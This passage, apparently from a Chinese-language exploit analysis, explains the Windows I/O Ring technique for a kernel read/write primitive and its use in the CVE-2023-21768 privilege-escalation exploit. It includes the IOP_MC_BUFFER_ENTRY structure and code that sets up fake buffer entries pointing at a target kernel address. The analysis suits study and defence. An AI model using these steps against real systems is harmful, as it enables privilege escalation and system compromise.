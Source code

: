     ```bash
    typedef struct _IOP_MC_BUFFER_ENTRY
    {
     USHORT Type;
     USHORT Reserved;
     ULONG Size;
     ULONG ReferenceCount;
     ULONG Flags;
     _LIST_ENTRY GlobalDataLink;
     PVOID Address;
     ULONG Length;
     CHAR AccessMode;
     ULONG MdlRef;
     struct _MDL* Mdl;
     KEVENT MdlRundownEvent;
     PULONG64 PfnArray;
     BYTE PageNodes[1];
    } IOP_MC_BUFFER_ENTRY, * PIOP_MC_BUFFER_ENTRY;
    ```
    
    这导致一些变化，还是分配一个假缓冲区数组大小为 sizeof(PVOID) \* NumberOfEntries。其次为每个假缓冲区分配 IOP\_MC\_BUFFER\_ENTRY 结构，并将指针放入假缓冲区数组中。然后用下方代码进行一些设置即可
    
    ```bash
    mcBufferEntry->Address = TargetAddress;
    mcBufferEntry->Length = Length;
    mcBufferEntry->Type = 0xc02;
    mcBufferEntry->Size = 0x80; // 0x20 * (numberOfPagesInBuffer + 3)
    mcBufferEntry->AccessMode = 1;
    mcBufferEntry->ReferenceCount = 1;
    ```
    
    \## **CVE 利用代码分析**  
    这里结合实际的 CVE-2023-21768 漏洞来探究其真实漏洞场景中的实现步骤  
    用户初始化 I/O Ring 有两个独立的结构，一个用户态 一个内核态  
    而在内核态有两个对象就是我们上文介绍中提到的 RegBuffersCount RegBuffers  
    用户态调用 kernelbase!CreateIoRing 成功后，您将返回一个 I/O 环句柄。这个句柄是一个指向未记录结构的指针  
    如果漏洞能做到去更新 RegBuffersCount RegBuffers 字段，那么我们就能使用 I/O Ring api 来进行内核内存的读写原语。  
    漏洞利用代码中主要有两个文件是主要操作  
    ioring\_lpe.c -- getobjptr 函数主要就是从系统句柄信息中查找指定进程和句柄值对应的对象地址  
    通过\_NtQuerySystemInformation 查询系统句柄信息，然后又对句柄进行信息遍历等操作，最后释放内存和返回。
